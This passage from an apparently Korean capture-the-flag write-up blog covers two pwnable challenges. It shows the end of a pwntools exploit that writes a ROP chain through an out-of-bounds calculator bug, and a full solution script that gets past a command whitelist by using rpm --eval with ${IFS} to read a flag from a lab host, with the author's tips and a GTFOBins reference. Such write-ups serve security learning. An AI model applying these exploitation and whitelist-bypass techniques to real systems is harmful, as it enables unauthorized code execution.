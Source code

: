 ```python
go(b'+14a&41414141&%x'%(binsh >> 32))
go(b'+149&41414141&%x'%(binsh & 0xffffffff))
go(b'+148&41414141&%x'%(prdi >> 32))
go(b'+147&41414141&%x'%(prdi & 0xffffffff))
go(b'+146&41414141&%x'%(prdi >> 32))
go(b'+145&41414141&%x'%((prdi & 0xffffffff) + 1))
p.interactive()
```

### 블로그 포스트 작성자의 추가적인 코멘트

OOB read/write를 이용한 문제입니다. 개인적인 경험으로는, 문제를 풀 때 출제자 입장에서 생각해보는게 중요한 것 같습니다. 만약 이런식으로 계산기 프로그램을 C 언어로 작성할 때 연산기호가 붙어있거나, 숫자가 없거나 하는 엣지 케이스들을 어떻게 처리할 것인지, 그리고 문제 바이너리는 어떻게 처리하는지 살펴보시면 바이너리를 볼 때 좀 더 쉽게 접근하실 수 있을것이라 생각합니다. 비슷한 문제로는 [pwnable.tw - calc](https://pwnable.tw/challenge/#3) 문제를 추천드립니다. 

---

## HSpace Satellite

**출제자 책정 난이도**: easy

0xee 1 명령을 통해 debug 모드를 활성화 후 
0xff {command} 명령을 사용하여 command를 실행할 수 있다
rpm 명령이 whitelist에 있으므로 rpm --eval 명령을 통해 cat ./flag를 실행시킬 수 있다.

```python
from pwn import *
import time

context.log_level = 'debug'

p = remote('10.10.1.1', 8000)

p.sendline(b'\xee 1')
time.sleep(0.1)

p.sendline(b'\xff rpm --eval="%(cat\${IFS}./flag)"')
time.sleep(0.1)

print(p.recvline())
```


### 블로그 포스트 작성자의 추가적인 코멘트

명령어를 실행시킬 수 있지만 특정 명령어들로 제한되어 이를 bypass 하는 문제입니다. 이 문제에서는 `rpm` 명령어를 실행시킬 수 있고 옵션에는 제한사항이 없는 것을 활용해 `--eval` 옵션으로 임의 코드를 실행할 수 있었습니다. 이와 같이 옵션을 이용해 임의 명령을 실행시킬 수 있는 명령어 리스트를 [GTFOBins](https://gtfobins.github.io/) 에서 확인할 수 있으니 참고하시면 좋을 것 같습니다. 

---

## HSpace Satellite2
